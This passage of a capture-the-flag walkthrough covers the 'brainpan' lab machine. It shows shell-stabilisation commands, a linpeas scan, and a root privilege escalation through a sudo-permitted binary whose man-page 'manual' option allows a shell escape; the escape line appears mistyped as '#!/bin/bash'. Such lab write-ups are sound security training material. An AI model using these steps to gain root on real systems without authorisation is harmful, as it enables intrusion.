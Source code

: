 
We already exploited the `buffer overflow` and got ourselves a shell, since we are dealing with a Linux machine, we can stabilize our shell:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![](../images/Pasted%20image%2020250531145244.png)

Nice, with everything in order, let's check for a PE vector, we can use `linpeas` for that:

![](../images/Pasted%20image%2020250531145442.png)

We can see we got a binary named `anansi_util` on here that we can run as sudo without a password, let's check it out:

```
puck@brainpan:/home/puck$ sudo /home/anansi/bin/anansi_util
Usage: /home/anansi/bin/anansi_util [action]
Where [action] is one of:
  - network
  - proclist
  - manual [command]
```

The PE vector on this binary is the use of `manual` command, the man command on Linux is used to display the user manual of any command we run on the terminal, the issue on this, is that we can exploit it to get a root as shell, let's refer to `GTFOBINS` to check the PE:

![](../images/Pasted%20image%2020250531145755.png)

So, in order to exploit this, we need to do:

```
sudo /home/anansi/bin/anansi_util manual id # ID CAN BE REPLACED WITH ANY COMMAND.
#!/bin/bash
```

Once we do that, we get:

![](../images/Pasted%20image%2020250531145921.png)

We got a shell as root. Inside of root's directory, we can find `b.txt`:

![](../images/Pasted%20image%2020250531150016.png)

![](../images/Pasted%20image%2020250531150056.png)

